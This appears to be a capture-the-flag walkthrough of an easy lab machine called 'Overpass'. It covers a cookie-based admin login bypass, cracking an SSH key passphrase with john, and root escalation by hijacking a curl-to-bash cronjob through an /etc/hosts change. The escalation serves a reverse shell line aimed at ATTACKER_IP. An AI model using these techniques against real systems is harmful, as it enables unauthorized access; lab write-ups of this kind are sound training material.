

| Difficulty |  |  IP Address   |  |
| :--------: |--|:------------: |--|
|    Easy    |  | 10.10.138.135 |  |

---

First, I ran a basic `nmap` scan to enumerate the services that are running on the target machine.

```
sudo nmap -sC -sV -vv 10.10.138.135
```

 **Results:**



From the results, we can see that there are two open ports: **SSH (22)** and **HTTP (80)**.

Navigating to the HTTP website, we can see the following page:


Looks like the home page for a password manager called 'Overpass'.

Before carrying out our happy-path enumeration, let's use `gobuster` to see if we can enumerate any hidden directories:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as .php in the scan.

With Gobuster up and running, we can start exploring the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:


This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it. Could it be the Caesar Cipher? Let's keep this in mind for now!

Next, on the 'Downloads' page, there are some files that we can download.


Before looking at those files, let's check on the results of Gobuster:


Nice, looks like Gobuster has managed to find an interesting javascript file: **login.js**. 

It has also found an admininistrator login page at **/admin**:


I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated by Gobuster earlier: 


Looking more closely at the `login()` function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint '/api/login'. The response is then stored in a variable 'statusOrCookie'. There is then a check to verify whether the user is authenticated or not. 

However, looking at the else statement which authenticates the user, if we simply create a **'SessionToken'** cookie and set any random value,  we will be redirected to the /admin page!

Let's test this out using the browser's developer tools. In there, I created a cookie called 'SessionToken' and assigned a random value to it:


Upon refreshing the page, we can see that we have been authenticated and have gained access into the administrator area:


There is a message along with an RSA private key. This key will probably be used to log into the SSH server that is also running on the machine. The username that uses this key could also be **james**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.


Unfortunately we need a passphrase. We can try cracking the passphrase using `john`, which is a powerful hash cracking tool. 

First, we convert the key into a format that can be cracked by `john`. To do so, we use an auxiliary tool called `ssh2john`:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

Next, we use `john` on the output file from the previous command:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**


Nice, `john` manages to crack james' private key passphrase:

> james13 

With that, we can log into the SSH server.


Now that we're logged in, we can obtain the user flag from james' home directory.

---

Next, let's find a way to escalate our privileges. 

I noticed that there was a **todo.txt** file located in james' home directory:


It seems that james' password is stored in the password manager (Overpass) that he implemented. I used the `find` command to locate the Overpass binary on the target machine:

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain james's password by using the 'Retrieve All Passwords' option:


james' password is: 

> saydrawnlyingpicture

Next, let's see what **sudo privileges** james has on this machine:


Uh oh, looks like james does not have any sudo privileges at all. We'll need to find another privesc method.

To automate the privesc enumeration, I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is a privilege escalation automation script. After running the script, LinPEAS managed to find an interesting cronjob:


---

**Understanding cronjobs**

Below is an example cronjob:

```
* * * * * root rm /home/someuser/tmp*
```

The `*` symbols indictate the frequency of the cronjob. The name placed after the symbols refers to the user that will run the job. Finally, the command to be run will be placed after that. In the case of the example above, the `rm /home/someuser/tmp/*` command will be run by root every minute (as shown by 5 `*` symbols).

---

How about the cronjob that was found by LinPEAS?


This cronjob curls a 'buildscript.sh' file from 'overpass.thm/downloads/src' every minute and pipes it over to `bash`, which will execute it. The important thing to note is that this command is executed by the root user. 

We can exploit this by creating our own buildscript.sh file, which sets up a reverse shell that connects back to our local machine. We then ensure that when the target machine connects to 'overpass.thm', it is actually connecting to us. Then, when our buildscript.sh file is downloaded and executed by the target machine, it will be executed by root, hence opening a root reverse shell.

Let's set this up!

First, I needed to know what IP address 'overpass.thm' pointed to. Looking at the /etc/hosts file on the target machine, we actually see that 'overpass.thm' points to localhost:


I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to 'overpass.thm', the target machine will check the /etc/hosts file and direct the request to my machine instead.

Next, I created a bash script called 'buildscript.sh' with the following command inside:

```
bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local machine.

I placed this script inside a '/downloads/src' directory within my machine. I then started up a Simple HTTP Server on port 80 using Python.

Finally, I set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

After a minute has passed, we can see that my buildscript.sh file was indeed downloaded by the target machine:


It was then executed, successfully opening the reverse shell:


With that, we've gained access to the target machine as root!

We can then obtain the root flag found in /root.

